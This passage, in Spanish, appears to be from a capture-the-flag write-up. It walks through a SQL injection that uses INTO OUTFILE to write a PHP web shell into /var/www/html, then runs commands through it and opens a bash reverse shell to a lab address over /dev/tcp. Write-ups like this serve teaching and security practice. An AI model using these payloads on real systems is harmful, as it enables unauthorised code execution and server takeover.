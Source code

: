 
![etcpasswd](/validation/etcpasswd.png)


Ahora se intenta escribir un archivo que interprete código PHP, en una posible ruta donde se encuentra almacenada la web, como por ejemplo, `/var/www/html`. Si esto se realiza de manera exitosa, se registra un archivo que nos permite obtener una ejecución remota de código (RCE) sobre el equipo. Por lo que se puede hacer la prueba con un archivo **txt**.


```bash
'union select  'this is a test' INTO OUTFILE '/var/www/html/test.txt'-- -
```
{: .nolineno}

Aunque la web arroje un error, es debido a que la respuesta de este comando no produce salida, por lo que la web no tiene información para mostrar y genera un error. No obstante, es necesario verificar en la ruta si nuestro archivo de prueba fue cargado correctamente.


![fail](/validation/fail.png)

![test](/validation/test.png)

Dado que se confirmó que la carga del archivo fue exitosa, se procede a subir un archivo que interprete comandos en PHP, lo que permitirá obtener una shell reversa.


```bash
' union select '<?php system($_REQUEST[0]); ?>' into outfile '/var/www/html/shell.php'-- -
```
{: .nolineno}

Al revisar, se observa que el archivo está arrojando un error, indicando que se ha subido correctamente. Sin embargo, se entiende que es necesario agregarle el parámetro esperado para su funcionamiento adecuado.


![webshell](/validation/webshell.png)

Se lleva a cabo una prueba rápida para verificar si es posible ejecutar de forma remota algún comando de prueba, como por ejemplo `ls`.

![rce](/validation/rce.png)


Ahora solo falta ponerse a la escucha con ayuda de `nc`.

```bash
nc -lvp 1234
listening on [any] 1234 ...
```
{: .nolineno}


Ahora se envía el comando para establecer la shell reversa.

```bash
bash -c 'exec bash -i %26>/dev/tcp/10.10.14.14/1234 <%261'
```
{: nolineno}
